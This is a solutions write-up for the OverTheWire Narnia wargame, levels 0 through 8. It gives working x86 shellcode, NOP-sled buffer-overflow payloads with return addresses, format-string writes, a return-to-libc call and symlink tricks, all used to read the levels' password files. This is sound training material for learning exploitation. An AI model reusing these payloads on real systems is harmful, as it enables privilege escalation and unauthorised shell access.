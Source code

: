 ### overthewire - narnia (clang exploits)
narnia levels concerns basic c language exploits. these exploits are mainly due to bad memory safety in c. 

0. simple stack overflow
    * memory layout: low_addr ... buf val ... high_addr
    * > ```(python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0```
        * copying from clipboard is not going to work, so regrouping statements and pipe must be used
        * when in doubt, use python and pipe to write exploit strings, partly due to the low write priviledge given
    * idea from [here](https://axcheron.github.io/writeups/otw/narnia/)
---
1. environment variable exploit
    * apparently the program tries to execute the environment variable EGG
    * so set EGG to shellcode 
    * > ```export EGG=\`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'\` ```
    * > ```/narnia/narnia1```
---
2. standard buffer overflow
    * see 'smashing the stack for fun and profit'
    * common gdb plays
        * intro
            * ```gdb <executable>``` to launch gnu debugger
            * ```r <arguments>``` to run program
            * ```n``` to execute the next line
            * ```l``` to look around the current line, if high level code avaliable
            * ```i r``` to look at all registers
            * ```q``` to quit
        * disassembly
            * oftentimes we can only see assembly code
            * ```set disassembly-flavor intel``` before anything
            * ```disass main``` shorthand for disassembling the main function
        * breakpoints
            * just like other breakpoints in other IDEs
            * ```b main``` to set breakpoint at main
            * ```b *main+10``` to set breakpoint at 10 bytes after main
            * ```i b``` lists (info) breakpoints
            * ```d b 1``` deletes the first breakpoint, if it exists
            * ```c``` during program execution continues to the next breakpoint or program's end
    * address arithmetic
        * memory layout (see the paper above)
        * key: 8 + $ebp is return address
            * 4 + $ebp is the caller's $ebp, for main it is 0
    * exploit sandwitch
        * a series of moves to get the program's permmission
        * ```sandwitch = NOP (\x90) sled + shell code + fake_ret```
        * ```fake_ret``` points to somewhere in the NOP sled
            * program will no exactly nothing as it slides down the NOP sled
            * then it will execute the shell code to spawn a shell with process priviledge for attacker
        * length of the sandwitch must align with the program's data structure
            * through gdb examination, 132 bytes of NOP + shell code and then return to NOP sled
                * ```disas main```
                    * recon(nissance) by disas(sembling) main to see where is ```strcpy```
                * ```b *main+56```
                    * set a breakpoint right after ```strcpy``` 
                * use ```x/100x $esp+500```
                    * ```x/100x``` means 'print in hex 100 bytes after the specified location'
                    * ```$esp+500``` means 'location is stack top plus 500'
                        * note this goes against the direction of stack and reaches the environment variable, ```argv[1]``` we supplied 
                            * this is because like narnia1, we want to run shell code in the environment, as memory will be recycled after ```main``` returns
                        * 500 is an estimate of the distance from the stack to the environment variable, which sits at the high end of memory
                * remember above main's stack is the last $ebp (in this case 0) and then the return address
                * a little trial and error
            * length of shell code is 45
                * > "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
            * NOP sled is ```132 - 27 = 87``` bytes long
    * > ```/narnia/narnia2 $(python -c 'print "\x90"*87 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x64\xd8\xff\xff"')```
    * > ```cat /etc/narnia_pass/narnia3```
---
3. output redirection
    * idea is to redirect ofile to a file that we can see, and let ifile be narnia4's password
        * this is ```/tmp``` directory on narnia server
    * overflow ifile to get the desired result
    * how to implement
        * observe we cannot simply put ```/etc/narnia_pass/narnia4``` down as ifile and try to append whatever ofile in ```/tmp``` after it
        * solution: soft link
            * ```ln -s /etc/narnia_pass/narnia4 <some-file>``` 
        * observe if ```<some-file>``` needs to be ofile from 32 characters onward. let's call that ```/tmp/ifile``` and denote it ```B```
        * the first 32 characters must be valid file path, so we have to create some file that we have access to with an absolute path of 32 characters:
            * > ```mkdir -p /tmp/narnia4narnia4narnia4narnia/tmp```
            * denote ```/tmp/narnia4narnia4narnia4narnia``` as ```A```
        * link password to ```AB```
            * > ```ln -s /etc/narnia_pass/narnia4 /tmp/narnia4narnia4narnia4narnia/tmp/ifile```
        * make the actual file for storing password and make it avaliable for narnia3's program
            * > ```touch /tmp/ifile;chmod 666 /tmp/ifile```
        * run the program with ```AB``` as input and read password
            * > ```/narnia/narnia3 /tmp/narnia4narnia4narnia4narnia/tmp/ifile```
            * > ```cat /tmp/ifile```
        * note the similiarty between this level and leviathan2, both are related to the idea of quine
---
4. buffer overflow
    * very similar to narnia2
    * ```264 - 45 = 219``` bytes of NOP
    * one return address would be ```0xffffd888```
    * > ```/narnia/narnia4 $(python -c "print '\x90'*219+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'\x88\xd8\xff\xff'")```
---
5. vanilla format string
    * ```%p``` to read
        * ```a.out %p%p%p``` reads the first, second, and third argument on the stack (not secure!)
        * read the third argument: ```a.out %3%p```
    * ```$n``` to write
        * ```%1$n``` to write to the address in first argument on stack
        * this turns out to be the address for i in hint
        * the first argument in this case is the beginning of the attack string
    * ```%<rep>x``` to write
        * ```<rep>``` is the length of the string we want to write
    * solution sketch
        * we need to write the address in hint at first
        * we need the string before the ```%1$n``` to be interpreted as 500 bytes long
            * thus we want ```<rep>``` to be 496 since we've already used up 4 bytes
    * > ```/narnia/narnia5 $(python -c 'print "\xe0\xd6\xff\xff" + "%496x%1$n"')```
    * > ```cat /etc/narnia_pass/narnia5```
---
6. return-to-libc
    * note the small size of buffers elinimates the probability of cooking up a shell code
    * however, one can still call ```system``` function in libc
        * supply it with ```sh;``` argument
        * ```p system``` in gdb once program started running
    * > ```/narnia/narnia6 $(python -c 'print "sh;"+"ABCDE"+"\x50\xc8\xe4\xf7"+" FGHI"')```
---
7. format string + control flow redirect
    * we want to go to ```hackedfunction``` at ```0x8048724```
    * overwrite prtf by a format string vulnerability to achieve the goal
    * the address of prtf is the last hex number on its line, ```0xffffd638```
    * ```format``` is the second argument on stack
    * > ```/narnia/narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%2$n"')```
    * > ```cat /etc/narnia_pass/narnia8```
---
8. string start vulnerability
    * this one is not fully solved by the following methods
    * it is 'solved' in gdb, but gdb spawns the program with priviledges of narnia8
    * so the following is how to get a shell in gdb
    * ```gdb /narnia/narnia8```
    * ```disas func```
        * observe there are two pointers to the string based on different arithmetic
        * if the ```func``` is to return smoothly, it must line up the two pointers after overflowing the string
        * return ```func``` to a preset envrionment variable that's shell code (see narnia1)
        * start address of input is subtracted by 12, since we need to overwrite the start address, another variable in bewteen, and the return address for func
        * encode everything in little-endian format
        * use ```x/16wx``` to see nearby memory
        * break at ```*func+106``` after the copying
        * use ```x/s *((char **)environ+6)``` to see the environment variable in gdb
